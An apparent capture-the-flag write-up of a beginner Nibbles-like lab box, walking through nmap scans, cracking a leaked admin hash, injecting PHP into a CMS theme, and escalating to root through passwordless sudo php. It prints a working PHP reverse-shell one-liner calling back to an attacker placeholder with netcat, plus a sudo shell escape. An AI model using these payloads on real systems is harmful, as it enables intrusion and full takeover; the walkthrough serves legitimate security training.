# Knowledge Check - Privilage Escalation box (Similar to Nibbles)

First of all, this box is a knowledge check of the Getting Started module. It tests whether you feel comfortable with enumerating services and identifying possible vulnerabilities, as well as showing you how to find available exploits using **_msfconsole_**.

Let's get the box started!

## **Enumeration**

We are given a target, and the first thing we want to do is find out as much as we can about it. To do this, we'll be enumerating our findings as we go.  
(´◡`)/

### **NMAP**
Let's start by running a quick **_nmap_** scan, using **-sV** to enumerate the services:
&nbsp;(ᵔ.ᵔ)

**_Nmap_** (Network Mapper) is our go-to tool for this step. When we're given a target, we need to understand what's running on it before we can do anything else. Nmap allows us to scan the target for open ports and identify the services running on them. Think of it like knocking on every door of a building to see which ones are open and who's behind them! The **-sV** flag is particularly useful here as it attempts to determine the version of the services running on the open ports — this is important because specific versions of services can have known vulnerabilities that we can potentially exploit later on. The more information we can gather at this stage, the better equipped we'll be going forward. 

 The scan shows open services like an Apache web server on port 80 and OpenSSH on port 22, and we can safely assume that the host is running Ubuntu Linux.  

Next, I run a quick _netcat_ to grab some banners and confirm what _Nmap_ has already shown us: 
 &nbsp;&nbsp;&nbsp;&nbsp; &nbsp;&nbsp;&nbsp;&nbsp;  
Port 22 shows us the banner for OpenSSH, but on port 80 we fail to grab a banner. &nbsp;&nbsp;&nbsp;&nbsp; ┐(´～｀)┌   

Now, let's run another **_nmap_** scan. This time we're performing a script scan using the **_-sC_** flag, specifically targeting open ports 22 and 80. The **_-sC_** flag runs a set of default scripts against the open ports, which can reveal additional information such as website titles, potential vulnerabilities, and other useful details that a basic service scan might miss. I'm also saving the results using the **_-oA_** flag, which is a handy option that saves the output in all formats at once — this is good practice as it means we always have a record of our findings to refer back to later!  
  
This scan revealed the title of the website, a robots.txt page, and an admin page. &nbsp;&nbsp;&nbsp;&nbsp; (~‾⌣‾)~   

By using the target IP with /admin/ in the browser — "http://[target_IP]/admin/" — we can see the admin login page:  
  
Now we just need to find the credentials to log in.&nbsp;&nbsp;&nbsp;&nbsp; (つ▀¯▀ )つ    

My next step was to run another **_nmap_** script scan using the **http-enum** script, which is used to enumerate common web application directories.  
  
Looking at the results above, we can see the available directories. We already know that /admin/ leads to the login page, but now we can explore all the other paths by appending them to the IP as shown before.   

By navigating into the /data/ folder I found the following:  
   

I went through every file to see what I could find. Under /users/ there was a file called "user.xml" which contained the user ID and password — although the password was hashed.  
   

Soooo, I decided to head over to crackstation.net to try and crack the hash, and as you can see below, it was successful! &nbsp;&nbsp;  മ◡മ  
   

With the credentials in hand, we can head back to the /admin/ path and log in &nbsp;&nbsp;(⁀ᗢ⁀) &nbsp;&nbsp; . We successfully get in and are greeted with a portal, as shown below. I then took a moment to enumerate everything available:
* **Pages:** Edit the welcome page, create new pages, and organize them.
* **Files:** There is an upload section, but uploading is not permitted.
* **Themes:** Can edit themes and upload them.
* **Backups:** Shows the changes made to the website.
* **Plugins:** Can report anonymously and toggle two plugins on and off.

But where things actually got interesting was in the Themes section. Since we're able to edit and upload themes, this opens up the possibility of injecting our own code into the server — which is exactly what we're going to explore next! 
   

## **PHP Code Execution**

After discovering that I could edit the themes, I decided to test for a PHP code execution vulnerability. 
The idea here is simple — if the server is executing PHP code within the theme files, we can potentially 
run system commands directly on the target. To test this, I injected the following command: _<?php system('id'); ? >_

The `id` command is a great starting point because it's harmless and simply returns the current user and 
group information of whoever is running the process. If it returns output, we know that PHP code execution 
is working and we can take things further from there! 
   

After updating the theme, I headed back to the main page and refreshed it. Sure enough, the page 
returned the output of the `id` command, confirming that PHP code execution is working! This is a 
significant finding — it means the server is executing our injected PHP code, which opens the door 
to much more powerful commands. Now that we've confirmed code execution, we can start thinking about 
how to leverage this to gain a foothold on the system.  
   

Now that we've confirmed PHP code execution, it's time to take things a step further and establish 
a reverse shell. I injected the following command into the theme: 
_<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc < ATTACKING IP > < LISTENING PORT > >/tmp/f") ? >_

Let's break down what this command is actually doing:
* **rm /tmp/f** — Removes any existing file at /tmp/f to start fresh.
* **mkfifo /tmp/f** — Creates a named pipe at /tmp/f, which acts as a communication channel.
* **cat /tmp/f|/bin/sh -i 2>&1** — Feeds the pipe into an interactive shell, while also redirecting error messages so we can see them.
* **nc < ATTACKING_IP> < LISTENING_PORT> >/tmp/f** — Uses netcat to connect back to our machine on the specified port and feeds the output back into the pipe.

Before refreshing the page to trigger the command, I set up a netcat listener on my machine using: 
_nc -lvnp < LISTENING_PORT>_

This tells our machine to listen for an incoming connection on the specified port. After refreshing 
the page, we successfully established a reverse shell connection! This means we now have an 
interactive shell on the target machine. &nbsp;&nbsp;   °˖✧◝(⁰▿⁰)◜✧˖°

We can see the interactive shell below! The first thing I do is run the `whoami` command to verify 
which user we are operating as on the target machine. This is an important step because it tells us 
our current privilege level — knowing whether we're running as a regular user or a more privileged 
account like root will determine what our next steps are and how much access we have on the system.  
   

Next, I ran the following command to upgrade our shell to a more stable and interactive TTY session:  
_python3 -c 'import pty; pty.spawn("/bin/bash")'_ 
The shell we currently have is fairly limited — it's a basic shell that lacks some of the features 
we'd normally expect, like tab completion, the ability to use text editors, and proper formatting. 
By using Python's `pty` module to spawn a full `/bin/bash` shell, we get a much more comfortable 
and functional environment to work in. Think of it as upgrading from a walkie-talkie to a proper 
phone call!  &nbsp;&nbsp;   ƪ(˘⌣˘)ʃ   
   

## **Flags and Privilege Escalation**

With our upgraded shell, I began navigating through the directories on the target machine. After 
some exploration, I was able to locate the `user.txt` file. In CTF challenges and HackTheBox machines, 
flag files like `user.txt` are used to prove that you've successfully gained access to the system as 
a regular user — think of it as your first checkpoint! I then used the `cat` command to read the 
contents of the file and retrieve our first flag.  
   

Now that we have the user flag, it's time to attempt privilege escalation to see if we can gain 
root access. I started by running:  
_sudo -l_  
This command lists the permissions granted to the current user via `sudo`. It's one of the first 
things you should always check after gaining a foothold, as it can reveal commands that the current 
user is allowed to run with elevated privileges — and that's exactly what we find here!  We find that we do not need any password!!! &nbsp;&nbsp;ᕕ(︶‿︶)ᕗ 
   

With that information in hand, I then set up a quick variable to make things cleaner: 
_CMD='/bin/sh'_  
   

Then I ran the following command: 
_sudo php -r "system('$CMD');"_ 
Let's break down what's happening here — since we have permission to run `php` with `sudo`, we can 
abuse that to spawn a shell with elevated privileges. The `-r` flag allows us to run inline PHP code, 
and by using `system()` to execute our `CMD` variable, we're essentially asking PHP to spawn a 
`/bin/sh` shell as root. This is a classic example of a sudo privilege escalation!  
   

With a root shell now in hand, I navigated to the root directory and located the `root.txt` file. 
Just like the `user.txt` flag, this one proves that we've achieved full root access on the machine. 
I ran `cat` on the file to retrieve our final flag and complete the box! &nbsp;&nbsp;  (づ ￣ ³￣)づ 
   

 

## ʕ ꈍᴥꈍʔ ♡
_And that is it for this one!!! Until next one_  
_-Mishi_
